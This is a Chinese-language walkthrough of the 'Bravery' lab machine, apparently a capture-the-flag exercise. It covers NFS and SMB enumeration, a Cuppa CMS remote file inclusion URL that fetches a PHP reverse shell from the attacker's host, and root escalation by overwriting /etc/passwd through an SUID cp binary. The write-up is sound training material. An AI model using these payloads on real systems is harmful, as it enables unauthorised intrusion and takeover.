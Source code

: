 # Bravery



![image-20200611023042725](assets/Bravery.assets/image-20200611023042725.png)



![image-20200611023445556](assets/Bravery.assets/image-20200611023445556.png)



![image-20200611023523893](assets/Bravery.assets/image-20200611023523893.png)



![image-20200611030502540](assets/Bravery.assets/image-20200611030502540.png)



![image-20200611030409992](assets/Bravery.assets/image-20200611030409992.png)

```bash
mkdir nfs
sudo mount -t nfs 192.168.43.175:/var/nfsshare nfs
```

![image-20200611032610166](assets/Bravery.assets/image-20200611032610166.png)

![image-20200611032653581](assets/Bravery.assets/image-20200611032653581.png)

```bash
qwertyuioplkjhgfdsazxcvbnm
```

---

smb

```bash
enum4linux 192.168.43.175
```

![image-20200611032941272](assets/Bravery.assets/image-20200611032941272.png)



![image-20200611032902030](assets/Bravery.assets/image-20200611032902030.png)

```bash
smbclient --no-pass //192.168.43.175/anonymous
```

![image-20200611033137230](assets/Bravery.assets/image-20200611033137230.png)

anonymous 可以匿名连接但是没什么有价值的东西。

secured 不可以匿名连接，使用-u实验一下已知的用户名，已经发现的可能是密码的字符串

```bash
smbclient //192.168.43.175/ -U david
```

![image-20200611034208068](assets/Bravery.assets/image-20200611034208068.png)

![image-20200611034430762](assets/Bravery.assets/image-20200611034430762.png)

![image-20200611034718681](assets/Bravery.assets/image-20200611034718681.png)

逐个浏览

![image-20200611041235178](assets/Bravery.assets/image-20200611041235178.png)



![image-20200611041308125](assets/Bravery.assets/image-20200611041308125.png)



cuppa cms



![image-20200611041608266](assets/Bravery.assets/image-20200611041608266.png)



很多漏洞。选最简单的，远程文件包含

![image-20200611041708993](assets/Bravery.assets/image-20200611041708993.png)

拉shell，改文件名后缀为.txt

```bash
http://192.168.1.112/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=http://192.168.1.108:8080/php-reverse-shell.txt
```

![image-20200611080504082](assets/Bravery.assets/image-20200611080504082.png)

基础枚举后发现cp 拥有SUID

![image-20200611084548532](assets/Bravery.assets/image-20200611084548532.png)



![image-20200611084833422](assets/Bravery.assets/image-20200611084833422.png)



先复制passwd到本地生成，复制root的信息到最后一行，

![image-20200611085117882](assets/Bravery.assets/image-20200611085117882.png)

利用openssl生成新用户evil的hash

![image-20200611085830450](assets/Bravery.assets/image-20200611085830450.png)

替换掉对应的用户名位和密码位

![image-20200611085903502](assets/Bravery.assets/image-20200611085903502.png)

上传到可写目录tmp

![image-20200611090145720](assets/Bravery.assets/image-20200611090145720.png)

利用cp替换

![image-20200611090259930](assets/Bravery.assets/image-20200611090259930.png)

su evil

![image-20200611090403674](assets/Bravery.assets/image-20200611090403674.png)

